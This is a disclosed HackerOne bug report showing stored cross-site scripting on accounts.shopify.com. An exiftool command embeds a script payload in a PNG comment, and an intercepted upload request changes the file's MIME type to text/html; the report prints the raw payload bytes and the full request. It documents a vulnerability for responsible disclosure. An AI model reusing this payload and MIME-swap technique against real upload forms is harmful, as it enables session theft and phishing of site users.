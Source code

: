 # XSS Stored via Upload avatar PNG [HTML] File in accounts.shopify.com

## Report Details
- **Report ID**: 964550
- **URL**: https://hackerone.com/reports/964550
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-08-22T03:35:29.772Z
- **Disclosed**: 2020-08-30T15:06:46.208Z

## Reporter
- **Username**: zerox4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hello team,

I found unrestricted file upload via avatar in https://accounts.shopify.com/accounts/<ID>,

and XSS Stored in PNG IDAT chunks using exiftool ,

>exiftool command

```
exiftool -Comment="\"><script>alert(prompt('XSS BY ZEROX4'))</script>" xss_comment_exif_metadata_double_quote.png
```


#Payload 

example :

```
�PNG
�
IHDRdp�TtEXtSoftwareAdobe ImageReadyq�e<9tEXtComment"><script>alert(prompt('XSS BY ZEROX4'))</script>
                                                                                                    /-{IDATx���E��K��s�9xd$#���J� %IR$�(���s�9Ñ������evnv���>����q�;;;S�U������\.����=��=�ܿ��BCb����QHyԑEYՑ�s$s�T�:�x���8���إ�}2`���0P����@�(��j�(����D�J�d�%[�
```

>or payload file example

>https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/XSS%20Injection/Files/xss_comment_exif_metadata_double_quote.png

and after select payload you should edit mime type of image[HTML] request with burpsuite, from image/png to text /html.

example:

```
POST /accounts/141376700 HTTP/1.1
Host: accounts.shopify.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://accounts.shopify.com/accounts/141376700
Content-Type: multipart/form-data; boundary=---------------------------20426576427959059782120179951
Content-Length: 13530
Origin: https://accounts.shopify.com
DNT: 1
Connection: close
Cookie: device_id=; _identity_session; __Host-_identity_session_same_site=; _y=; _shopify_y=; _s=; _shopify_s=; _shopify_fs=; subdomain=myzero.myshopify.com; utag_main=; __cfduid=
Upgrade-Insecure-Requests: 1

-----------------------------20426576427959059782120179951
Content-Disposition: form-data; name="utf8"

â
-----------------------------20426576427959059782120179951
Content-Disposition: form-data; name="_method"

patch
-----------------------------20426576427959059782120179951
Content-Disposition: form-data; name="authenticity_token"

0HXXr+2RHm5QwSvfF4MkpkyouUXgM8Dl/xxxxxx+w+78GWOFVLxSqTOpswgegMl3DgEgKHsV5Qw==
-----------------------------20426576427959059782120179951
Content-Disposition: form-data; name="account[avatar]"; filename="xss_comment_exif_metadata_double_quote.png"
Content-Type: text/html

PNG


```

and the malicious file saved in shopify-assets.shopifycdn.com

>example:
>https://shopify-assets.shopifycdn.com/accounts/production/account/avatar/8df3da6b-3954-4073-a397-27a4d41db106/avatar_36x36_crop_center.png?v=1598066255

PoC:
{F958928}


{F958927}

## Impact

steal sensitive user data and phishing accounts

## Attachments
- vokoscreenNG-2020-08-22_06-16-51.mkv
- Screenshot_at_2020-08-22_06-07-53.png
